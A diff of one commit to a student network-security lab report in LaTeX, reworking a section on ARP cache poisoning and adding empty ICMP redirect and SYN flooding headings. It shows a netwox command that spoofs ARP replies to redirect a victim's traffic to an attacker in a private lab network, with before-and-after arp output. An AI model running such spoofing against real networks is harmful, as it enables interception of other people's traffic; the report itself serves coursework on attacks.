

Before and after one commit to MyMEng/SS, a LaTeX document (report/reportB.tex): two parts of pages 2 and 3 of 4, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
First and third attack mostly described

```diff
--- a/report/reportB.tex
+++ b/report/reportB.tex
@@ -90,32 +90,43 @@ In each subtask we explain the cause of a vulnerability, show how to perform a p
   \end{table}
 \end{center}
 
-\section{ARP cache poisoning}
+\section{Part A: TCP attacks}
+
+\subsection{ARP cache poisoning}
+
+Our victim MAC address was "08:00:27:A6:EB:87" while its IP address was 192.168.0.102. We wanted to make the victim think that another 3rd party at address 192.168.0.103 has the MAC of the attacker. The original MAC of the third party was "08:00:27:93:07:7e", while attacker MAC address was "08:00:27:ee:0d:0f". We could see that by running arp -a command:
+
 \begin{lstlisting}
-# Man in the middle example
-#
-# VICTIM
-# MAC: 08:00:27:A6:EB:87
-#   IP: IP: 192.168.0.102
-
-# Some other node
-#   MAC: 08:00:27:93:07:7e
-# IP: 192.168.0.103
-
-# ATTACKER (Man in the middle)
-# MAC: 08:00:27:ee:0d:0f
-#   IP: IP: 192.168.101
-sudo netwox 33 -b 08:00:27:A6:EB:87 -g 192.168.0.103 -h 08:00:27:A6:EB:86 -i 192.168.0.101
-
-
 # Before attack
 seed@victim: arp-a
 (192.168.0.103) at 08:00:27:93:07:7e
+\end{lstlisting}
 
-# After attack
+Using netwox we could spoof a packet that updates ARP cache on the victim's machine and replace the entry with the MAC of the attacker:
+
+\begin{lstlisting}
+sudo netwox 33 -b 08:00:27:A6:EB:87 -g 192.168.0.103
+	-h 08:00:27:A6:EB:86 -i 192.168.0.101
+\end{lstlisting}
+
+Here 33 is the tool for spoofing ARP packages, we tell the tool the original MAC and new MAC addresses, as well as IP addresses of the victim and the IP address of which entry in the ARP cache we want to modify.
+
+After spoofing the packet, running arp -a tool on the victim's machine results in the following output:
+
+\begin{lstlisting}
 seed@victim: arp-a
 (192.168.0.103) at 08:00:27:ee:0d:0f
 \end{lstlisting}
+
+
+\subsection{ICMP Redirect Attack}
+
+ICMP messages are used to send error or redirection information in the IP protocol.
+
+\subsection{SYN Flooding Attack}
+
+In
+
 
 \section{Conclusions}
 Attacks presented here show how a user can make harm to the system or gain \texttt{root} privileges by exploiting vulnerabilities in: \texttt{C} string formatting, \texttt{chroot} command/system call, and \texttt{C} buffer overflow.
```
